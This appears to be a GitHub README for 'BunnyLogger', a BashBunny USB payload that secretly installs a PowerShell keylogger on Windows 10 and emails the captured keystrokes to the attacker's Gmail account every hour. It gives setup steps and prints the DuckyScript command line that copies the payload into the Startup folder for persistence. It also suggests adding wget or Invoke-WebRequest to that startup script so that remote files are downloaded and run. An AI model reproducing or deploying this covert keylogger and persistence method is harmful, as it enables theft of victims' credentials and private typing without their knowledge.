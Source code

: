 # Bunny Logger
> Chris Taylor [Blue Cosmo] | 08/24/21
---

```
__________                           .____                                      
\______   \__ __  ____   ____ ___.__.|    |    ____   ____   ____   ___________ 
 |    |  _/  |  \/    \ /    <   |  ||    |   /  _ \ / ___\ / ___\_/ __ \_  __ \
 |    |   \  |  /   |  \   |  \___  ||    |__(  <_> ) /_/  > /_/  >  ___/|  | \/
 |______  /____/|___|  /___|  / ____||_______ \____/\___  /\___  / \___  >__|   
        \/           \/     \/\/             \/    /_____//_____/      \/         
```

## Overview:
```
BunnyLogger is a BashBunny payload that uses PowerShell to log keystrokes
```
- moves *c.cmd* file to windows startup directory
- *c.cmd* will secretly run *p.ps1*
- *p.ps1* will log keystrokes and email the logs every startup and every hour [via SMTP]

## Resources:
- [YouTube Video]()
- [YouTube Channel](https://youtube.com/cosmodiumcs)
- [Website](https://cosmodiumcs.com)

## Requirements:
- Gmail account
    - i suggest making a separate Gmail account for this payload
    - your Gmail must have [LSA Access](https://myaccount.google.com/lesssecureapps?pli=1&rapt=AEjHL4Px2VEFPoFPEuLutMD6UhNVRyY9P3s7l-pCGA53NBqilKVrtltrfS1823x5i6k6_pSEVp6jkEW0zKQT2CHN0WXh4fvGiw) enabled
- Windows 10 Target

## Instructions:
Set-Up/Installation
1. change Gmail credentials in *p.ps1*
```powershell
# gmail credentials
$email = "example@gmail.com"
$password = "password"
```
2. in line 7 of *duckyscript.txt*, change 'switch1' to whatever switch you use
3. in line 7 of *duckyscript.txt*, change 'BashBunny' to the name of your BashBunny
```powershell
STRING $u=gwmi Win32_Volume|?{$_.Label -eq'BashBunny'}|select name;cd $u.name;cp .\payloads\switch1\p.ps1 $env:temp;cp .\payloads\switch1\c.cmd "C:/Users/$env:UserName/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup";cd $env:temp;echo "">"$env:UserName.log";
```
## Extraneous:
The *c.cmd* attack opportunity
```
the c.cmd file runs every startup.
this means an attacker could place a
'wget' or 'Invoke-WebRequest' and have a file
be downloaded from anywhere on the internet onto the computer.
the file would then save in the startup directory,
allowing it to run every startup
```
---
- hope you enjoy the payload!!
- please subscribe to my [YouTube channel](https://youtube.com/cosmodiumcs) :)
